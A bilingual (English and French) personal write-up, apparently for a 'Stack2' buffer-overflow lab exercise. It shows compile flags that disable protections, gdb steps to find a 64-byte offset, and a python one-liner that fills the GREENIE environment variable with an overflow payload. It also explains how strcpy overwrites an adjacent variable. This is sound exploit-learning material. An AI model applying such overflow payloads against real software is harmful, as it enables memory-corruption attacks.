




# Explanation

1. **Compile**
```bash
gcc -m32 -std=gnu89 -fno-stack-protector -g -z execstack -no-pie Stack2.c -o Stack2
```

2. Find
```bash
#Run in gdb
gdb ./Stacktwo
break main
run
```


```
print &buffer
print &modified
print (char *)&modified - (char *)&buffer 
64   #Our offset
```

-------------------------------------------------------------------

- For this exercise I need to change `modified` to `0x0d0a0d0a` from a Env variable called GREENIE

```bash
#No space in zsh or else error for daaaaays
#"<I" means “pack a 32-bit unsigned int in little-endian.” That yields exactly the 4-byte sequence
export GREENIE="$(python3 -c 'import sys,struct; sys.stdout.buffer.write(b"A"*64 + struct.pack("<I",0x0d0a0d0a))')"

#Print env into .bin
printf "%s" "$GREENIE" > stacktwo.bin

#Verify
printf "%s" "$GREENIE" | hexdump -C
wc -c stacktwo.bin

#run code
./Stacktwo

#SUCCESS
```





------------------------------------------------------------------

# What I learned :

Every time I run a program from shell, the shell “hands off” a copy of its environment to that new process. By doing:

```bash
export GREENIE="…your payload…"
./stack2
```

Telling the shell:
1. “Attach an environment variable called `GREENIE` with this value to _every_ process I launch from now on.”
2. When running `./stack2`, the kernel creates a new process whose _environment block_ includes `GREENIE`.
3. Inside C code, this line…

```c
variable = getenv("GREENIE");
```
- …looks up the `GREENIE` entry in that environment block and returns a pointer to its bytes.
- You then do `strcpy(buffer, variable)`, which copies _exactly_ what you set in `GREENIE` into `buffer` and (overflow!) into `modified`.

# Ce que j’ai appris

Chaque fois que je lance un programme depuis le shell, celui-ci “transmet” une copie de son environnement au nouveau processus. En faisant :

```bash
export GREENIE="…your payload…"
./stack2
```

Je demande au shell :

1. « Ajoute une variable d’environnement nommée GREENIE avec cette valeur à tout processus que je lance à partir de maintenant. »
2. Au démarrage de ./stack2, le noyau crée un nouveau processus dont le bloc d’environnement contient GREENIE.
3. Dans le code C, cette ligne :

```bash
variable = getenv("GREENIE");
```

- …cherche l’entrée `GREENIE` dans ce bloc d’environnement et renvoie un pointeur vers ses octets.
- Ensuite, `strcpy(buffer, variable)` copie exactement la valeur de GREENIE dans buffer et (overflow !) jusqu’à écraser modified.
